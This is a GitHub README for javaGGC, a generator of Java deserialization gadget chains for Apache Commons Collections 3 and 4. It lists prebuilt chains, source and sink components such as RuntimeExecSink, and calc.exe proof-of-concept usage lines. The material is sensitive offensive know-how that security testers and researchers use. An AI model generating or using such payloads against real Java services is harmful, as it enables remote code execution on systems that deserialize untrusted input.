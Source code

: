 # javaGGC
***javaGGC for generate commons.collections gadget chain***

## Usage
### javaGGC 0
Use available ggc now!

CCHx is commons collections 4.x ggc relative to CCx.
```
Usage: javaGGC version=(3/4) [source=SOURCE_INDEX] [sink=SINK_INDEX] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)] 
       |
       javaGGC 0 [ggc=CC_INDEX/CC_NAME] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)]

Usage: javaGGC version=(3/4) [source=SOURCE_INDEX] [sink=SINK_INDEX] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)] 
       |
       javaGGC 0 [ggc=CC_INDEX/CC_NAME] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)]

Available GGC:
  [0] CC1 (command)
  [1] CC10 (command)
  [2] CC11 (code)
  [3] CC12 (code)
  [4] CC2 (code)
  [5] CC3 (code)
  [6] CC4 (code)
  [7] CC5 (command)
  [8] CC6 (command)
  [9] CC7 (command)
  [10] CC8 (code)
  [11] CCH1 (command)
  [12] CCH10 (command)
  [13] CCH11 (code)
  [14] CCH12 (code)
  [15] CCH3 (code)
  [16] CCH5 (command)
  [17] CCH6 (command)
  [18] CCH7 (command)
  [19] CCH8 (code)
  [20] CCK1 (code)
  [21] CCK2 (code)
  [22] CCK3 (command)
  [23] CCK4 (command)
```
usage: `javaGGC 0 CC1 calc.exe`
### javaGGC 3/4
Assemble these gadgets into a new ggc chain!
#### javaGGC 3
```
Usage: javaGGC version=(3/4) [source=SOURCE_INDEX] [sink=SINK_INDEX] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)] 
       |
       javaGGC 0 [ggc=CC_INDEX/CC_NAME] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)]

Available Source:
  [0] AnnotationInvocationHandlerSource (jdk<8u71)
  [1] BadAttributeValueExpExceptionSource
  [2] HashMapSource
  [3] HashSetSource
  [4] HashtableSource
Available Sink:
  [0] RuntimeExecSink (command)
  [1] ScriptEngineManagerSink (code)
  [2] TemplatesImplNewTransformerSink (code)
  [3] TemplatesImplTrAXFilterSink (code)
```
usage: `javaGGC 3 0 0 calc.exe`

#### javaGGC 4
```
Usage: javaGGC version=(3/4) [source=SOURCE_INDEX] [sink=SINK_INDEX] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)] 
       |
       javaGGC 0 [ggc=CC_INDEX/CC_NAME] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)]

Available Source:
  [0] AnnotationInvocationHandlerSource (jdk<8u71)
  [1] BadAttributeValueExpExceptionSource
  [2] HashMapSource
  [3] HashSetSource
  [4] HashtableSource
  [5] PriorityQueueSource
  [6] TreeBagSource
Available Sink:
  [0] RuntimeExecSink (command)
  [1] ScriptEngineManagerSink (code)
  [2] TemplatesImplNewTransformerSink (code)
  [3] TemplatesImplTrAXFilterSink (code)
```
usage: `javaGGC 4 0 0 calc.exe`

## Update
### V0.0.4
- add AnnotationInvocationHandlerSource for commons collections 4
- add CCH1, CCH3
### V0.0.3
- add TreeBagSource for commons collections 4

## Reference
[CCK Reference](https://github.com/shadowsock5/ysoserial/commit/cb0a3fa7aa8de4563fd4e1c57d45e6cd1ffea971)